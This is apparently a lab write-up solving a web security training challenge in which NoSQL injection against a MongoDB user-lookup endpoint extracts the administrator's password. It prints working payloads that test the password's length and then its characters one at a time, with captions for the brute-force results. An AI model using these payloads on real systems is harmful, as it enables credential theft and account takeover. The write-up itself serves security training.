# Exploiting NoSQL injection to extract data
# Objective
The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, extract the password for the administrator user, then log in to their account.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The lookup functionality allows to retrieve account information from database:
||
|:--:| 
| *User lookup request* |
||
| *User lookup response* |

Moreover it allows to retrieve information about other users:
||
|:--:| 
| *Administrator account infromation* |

Using the following payload it is possible to retieve user's password (letter by letter):
```
Encoded: /user/lookup?user=wiener'+%26%26+this.password[0]%3d%3d'p'+||+'a'%3d%3d'b 
Decoded: /user/lookup?user=wiener' && this.password[0]=='p' || 'a'=='b 
```

||
|:--:| 
| *Correct letter* |
||
|:--:| 
| *Wrong letter* |

## Determining password length
```
Encoded: /user/lookup?user=administrator'+%26%26+this.password.length>5+||+'a'%3d%3d'b
Decoded: /user/lookup?user=administrator' && this.password.length>5 || 'a'=='b
```

||
|:--:| 
| *Password length check* |

||
|:--:| 
| *Payload position* |
||
| *Payload settings* |
||
| *Result - password length is 8 characters long* |

## Password enumeration

||
|:--:| 
| *Payload positions* |
||
| *Payload settings* |
||
| *Payload settings* |
||
| *Result - password is fkyppptq*|
